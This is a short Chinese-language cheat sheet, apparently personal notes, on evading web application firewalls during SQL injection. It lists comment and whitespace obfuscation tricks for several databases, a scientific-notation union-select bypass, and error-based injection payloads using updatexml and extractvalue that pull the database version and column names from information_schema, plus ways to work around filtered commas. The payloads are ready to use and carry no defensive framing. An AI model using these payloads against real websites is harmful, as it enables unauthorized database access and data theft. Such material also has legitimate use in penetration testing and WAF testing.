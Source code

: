### 过waf

> https://blog.csdn.net/wjy397/article/details/53263281

1. 确定waf类型，狗、盾、神、锁、宝、卫士
2. 使用注释符号或者特殊符号或者多个特殊符号重复

```
# 
--
-- - //5.6.12特性，需要加空格
--+
//
/**/ //c风格注释
/**//**/  //多个注释
/*letmetest*/
;


# 科学记数法
id=0e1union select



# 空白字符
SQLite3 0A 0D 0C 09 20 
MySQL5 09 0A 0B 0C 0D A0 20 
PosgresSQL 0A 0D 0C 09 20 
Oracle 11g 00 0A 0D 0C 09 20 
MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
```

1. 使用sql内置函数或者关键字

> 报错注入 https://blog.csdn.net/like98k/article/details/79646512

```
# 常用
extractvalue
updatexml 报错注入
UPDATEXML (XML_document, XPath_string, new_value); 
or updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> select * from  users where id = 1 and updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> version() database() (SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1

floor()
ceil()
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
concat(version(),'|',user());
concat_ws('|',1,2,3)
Char(49)
Hex('a')
Unhex(61)
过滤了逗号
(1)limit处的逗号：
limit 1 offset 0
(2)字符串截取处的逗号
mid处的逗号：
mid(version() from 1 for 1)
```
